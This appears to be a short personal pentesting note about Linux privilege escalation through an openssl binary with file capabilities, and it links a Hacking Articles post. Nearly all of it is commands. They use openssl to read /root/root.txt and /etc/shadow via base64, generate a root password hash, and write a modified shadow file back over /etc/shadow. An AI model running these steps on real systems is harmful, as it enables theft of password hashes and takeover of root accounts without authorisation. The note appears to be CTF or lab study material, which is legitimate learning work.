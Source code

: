 
[Linux Privilege Escalation using Capabilities - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

![[2b5171cc7bf44b8996e85892d1c26c35 1.png]]


# Guide

# OpenSSL

See [[OpenSSL]]
Capability `ep`, 

### Read

```
./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
base64 -d root.txt.b64
```
```

./openssl enc -base64 -in /etc/shadow -out ./shadow.b64
base64 -d shadow.b64 > shadow
```

### Write

```
openssl passwd -1 -salt root rick  #Makes a password
```

Edit shadow with these creds 

```
./openssl enc -in shadow -out /etc/shadow
```
